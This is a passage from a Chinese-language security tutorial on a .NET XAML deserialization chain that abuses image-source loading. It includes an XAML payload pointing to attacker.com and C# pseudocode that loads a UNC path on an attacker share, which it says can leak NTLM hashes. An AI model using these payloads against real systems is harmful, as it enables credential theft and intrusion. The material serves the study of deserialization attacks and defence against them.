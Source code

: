 

## 16 XamlImageInfo链
### 16.1 什么是 XamlImageInfo 链?

- `XamlImageInfo` 链是利用 .NET 框架中 XAML 反序列化机制，结合 `System.Windows.Media.ImageSourceConverter` 等类型，通过解析图片信息触发任意代码执行的攻击方式。
- 攻击者可构造特定的 XAML 对象树，诱使反序列化过程自动解析外部图片或资源，进而利用图片 URI 触发远程加载、命令执行或信息泄露。

---

### 16.2 利用链核心组件

- **System.Windows.Media.ImageSourceConverter**  
    支持将字符串或 URI 转换为图片对象，反序列化时自动解析。
- **BitmapImage / ImageSource**  
    支持从本地或远程 URI 加载图片，构造时可触发外部请求。
- **XAML 反序列化**  
    通过 `System.Xaml.XamlReader` 或 `System.Windows.Markup.XamlReader` 反序列化 XAML，自动还原对象图。

---

### 16.3 利用链条详细流程

1. **构造 XAML 对象树**
    - 攻击者构造如下 XAML 片段，指定外部图片 URI：
      ```xml
      <Image Source="http://attacker.com/evil.png" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"/>
      ```
    - 或者通过 `ImageSourceConverter` 解析恶意字符串。

2. **序列化与传递**
    - XAML 片段通过 API（如 `XamlReader.Load`）传递到目标应用。

3. **反序列化触发链条**
    - 目标应用调用 `XamlReader.Load` 反序列化 XAML。
    - 反序列化流程解析 `Image.Source`，自动调用 `ImageSourceConverter` 加载指定 URI。
    - 可触发远程请求、NTLM 哈希泄露，甚至在某些场景下结合 UNC 路径实现命令执行。

---

### 16.4 伪代码示例

```csharp
// 恶意 XAML 字符串
string xaml = @"<Image Source='\\attacker\share\evil.png' xmlns='http://schemas.microsoft.com/winfx/2006/xaml/presentation' />";

// 反序列化触发加载外部图片
var obj = System.Windows.Markup.XamlReader.Parse(xaml);
```

---
